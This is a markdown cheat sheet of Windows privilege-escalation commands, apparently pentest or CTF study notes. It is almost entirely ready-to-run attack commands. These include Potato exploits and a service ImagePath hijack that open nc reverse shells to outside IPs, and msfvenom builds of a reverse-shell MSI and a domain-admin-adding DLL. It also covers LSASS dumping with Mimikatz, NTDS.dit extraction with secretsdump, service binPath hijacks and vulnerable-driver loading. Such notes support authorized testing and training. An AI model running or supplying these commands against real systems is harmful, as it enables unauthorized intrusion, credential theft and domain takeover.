

#windows #privesc #potato #services

# Windows Privilege Escalation

Related: [credential-theft](credential-theft.md) · [lateral-movement](lateral-movement.md) · [fundamentals](fundamentals.md) · [password-attacks](../Passwords/password-attacks.md) · [dcsync](../AD/dcsync.md)

## Contents
- [Enumeration](#enumeration)
- [SeImpersonate — Potato Attacks](#seimpersonate--potato-attacks)
- [LSASS Dump](#lsass-dump)
- [Service Abuse](#service-abuse)
- [SeLoadDriver](#seloaddriver)
- [DnsAdmins (DLL injection)](#dnsadmins-dll-injection)
- [AlwaysInstallElevated](#alwaysinstallelevated)
- [UAC / Version](#uac--version)
- [NTDS / Hashes (post-DC-compromise)](#ntds--hashes-post-dc-compromise)
- [Exploit Suggester](#exploit-suggester)



## Enumeration
```cmd
systeminfo
```
Detailed system/patch info (feed to exploit suggester).

```cmd
whoami /priv
```
List current privileges (look for SeImpersonate, SeLoadDriver, etc.).

```cmd
whoami /groups
```
List group memberships.

```cmd
wmic qfe
```
List installed patches (`wmic product get name` for software).

```powershell
Get-MpComputerStatus
```
Check Windows Defender status.

```powershell
Get-AppLockerPolicy -Local | Test-AppLockerPolicy -path C:\Windows\System32\cmd.exe -User Everyone
```
Test AppLocker policy.

```cmd
.\SharpUp.exe audit
```
Automated privesc check (SharpUp).

## SeImpersonate — Potato Attacks
```cmd
c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"
```
Escalate via SeImpersonate (PrintSpoofer).

```cmd
c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 443 -e cmd.exe" -t *
```
Escalate via JuicyPotato (older Windows).

## LSASS Dump

> [!CAUTION]
> Dumping LSASS is one of the most heavily signatured actions on a modern EDR-monitored host (process-handle-to-lsass.exe + `MiniDumpWriteDump` is a textbook detection rule). Expect this to trigger alerts; consider a less noisy credential-access path first if OPSEC matters.

```cmd
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```
Dump LSASS memory (ProcDump).

```
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```
Extract credentials from the dump (Mimikatz). See [credential-theft](credential-theft.md).

## Service Abuse
```cmd
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```
Find unquoted service paths.

```cmd
icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"
```
Check service binary permissions (weak ACL → replace binary).

```cmd
sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
```
Hijack a service's binary path (space after `binPath=` is required).

```powershell
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"
```
Change a service ImagePath via a weak registry ACL.

## SeLoadDriver
```cmd
reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"
EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys
```
Load a vulnerable driver with SeLoadDriverPrivilege.

## DnsAdmins (DLL injection)
```bash
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```
Build a malicious DLL.

```cmd
dnscmd.exe /config /serverlevelplugindll adduser.dll
```
Load the DLL via the DNS service (then restart DNS). See [dacl-attacks](../AD/dacl-attacks.md).

> [!NOTE]
> Requires membership in the `DnsAdmins` group — this is a group-membership privesc path, not a standalone exploit.

## AlwaysInstallElevated
```cmd
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
Check for AlwaysInstallElevated.

```bash
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi
```
Build a malicious MSI (install with `msiexec /i aie.msi /quiet /qn /norestart`).

## UAC / Version
```cmd
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
```
Confirm UAC is enabled (`ConsentPromptBehaviorAdmin` for the level).

## NTDS / Hashes (post-DC-compromise)
```cmd
robocopy /B E:\Windows\NTDS .\ntds ntds.dit
```
Copy NTDS.dit.

```bash
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```
Extract hashes offline. See [dcsync](../AD/dcsync.md).

## Exploit Suggester
```bash
python2.7 windows-exploit-suggester.py --database 2021-05-13-mssb.xls --systeminfo win7lpe-systeminfo.txt
```
Match systeminfo output to known exploits.
